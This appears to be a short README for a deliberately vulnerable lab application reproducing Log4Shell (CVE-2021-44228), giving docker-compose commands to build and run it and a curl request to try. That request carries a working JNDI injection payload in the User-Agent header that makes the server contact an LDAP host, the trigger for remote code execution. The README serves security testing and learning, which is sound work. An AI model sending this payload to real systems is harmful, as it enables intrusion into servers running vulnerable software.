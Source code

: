 # Log4Shell sample vulnerable application (CVE-2021-44228)

- based on the repo : https://github.com/christophetd/log4shell-vulnerable-app
```
sudo docker-compose build .
sudo docker-compose up
```

- try : 
```
curl 127.0.0.1:8081 -H 'User-Agent: ${jndi:ldap://172.28.0.1:4444/hi}'
```

